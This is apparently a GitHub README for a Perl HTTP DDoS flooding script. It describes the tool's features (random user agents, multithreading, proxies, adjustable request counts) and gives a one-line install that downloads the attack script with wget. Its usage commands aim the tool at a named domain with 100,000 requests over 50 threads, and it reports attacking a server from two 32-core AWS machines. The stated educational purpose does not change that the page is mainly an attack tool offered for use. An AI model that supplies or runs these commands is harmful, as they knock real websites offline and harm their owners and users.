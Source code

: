 
# Script for HTTP DDoS Attack ↓

## Features

- Send request with Random User-agent, Read user-agent from Local file.
- multi-threading
- Easy to Customize for beginners
- customizable Headers
- Define Number of request to be send to target
- Can modify Delay btween next request
- HTTP/HTTPS proxy can be used with modification*
- Language: Perl
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/http.pl && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/user.txt && yes | perl -MCPAN -e'install "LWP::Simple"' && yes | apt-get install libwww-perl && chmod 777 *
```
## Usage

```
perl http.pl --url http://dultr.in/ --requests 100000 --threads 50
perl http.pl --url <target_url> --requests <no_of_req> --threads <no_of_threads>
```
```
- script read user agent from a file "user.txt" in same directory! (Line22) for change 
name or the directory of user-agent file!
- To modify header add, delete -> check (line 43)
- Delay between next request (line 56), bydefault 0.1s
```
```
- This script purpose to understand the HTTP ddos, to understand how traffic flows,
- Support only Attack to HTTP url,
```

## Screenshot for understanding the Script workflow !

![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097327395826040984/Attacker_Server.png)

## Targeted Server
![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097328145188794651/Attacker_Server_1.png)

## Used 2 Aws Serever with 32 Core to Attack this, Checkhost Report
![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097333866219450418/image.png)
permanent link for this check: https://check-host.net/check-report/f95317ck4c6

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in
